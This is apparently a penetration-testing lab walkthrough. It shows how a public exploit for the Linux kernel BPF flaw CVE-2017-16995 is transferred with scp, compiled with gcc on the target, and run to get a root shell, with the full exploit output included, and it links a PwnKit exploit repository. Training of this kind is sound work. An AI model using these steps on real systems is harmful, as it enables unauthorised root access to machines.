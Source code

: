 Luckily, to compile the source code into an executable, we just need to invoke **gcc** and specify the C source code and the output filename
+ To simplify this process, we could also rename the source filename to match the one expected by the exploit's procedure
+ Once renamed, we can simply paste the original exploit's instructions to compile the C code
```
mv 45010.c cve-2017-16995.c
```

To make sure that the compilation process goes as smooth as possible, we take advantage of the fact that our target is already shipped with GCC
+ For this reason we can compile and run the exploit on the target itself
+ As a consequence of this we can take advantage of including the correct version of the libraries required by the target's architecture
+ This setup will lower the risks related to any cross-compilation compatibility issues
+ To begin with, we transfer the exploit source code over the target machine via the SCP tool
```
scp cve-2017-16995.c joe@192.168.123.216:
```

Once transferred, we connect to the target machine and invoke GCC to compile the exploit, providing the source code as the first argument and the binary name as the output file to the **-o** parameter
```
joe@ubuntu-privesc:~$ gcc cve-2017-16995.c -o cve-2017-16995
```

We can safely assume gcc compiled it correctly since it did not output any errors
+ Using the **`file`** utility, we can also inspect the Linux ELF file architecture
```
joe@ubuntu-privesc:~$ file cve-2017-16995
cve-2017-16995: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=588d687459a0e60bc6cb984b5180ec8c3558dc33, not stripped
```

With all the prerequisites in place we are now ready to run our Linux kernel privilege escalation exploit:
```
joe@ubuntu-privesc:~$ ./cve-2017-16995
[.]
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.]
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.]
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff88007bd1f100
[*] Leaking sock struct from ffff880079bd9c00
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880075c11e40
[*] UID from cred structure: 1001, matches the current: 1001
[*] hammering cred structure at ffff880075c11e40
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),1001(joe)
#
```
+ We managed to obtain a root shell by exploiting a known kernel vulnerability

CVE-2021-4034 - Pkexec Local Privilege Escalation: https://github.com/ly4k/PwnKit

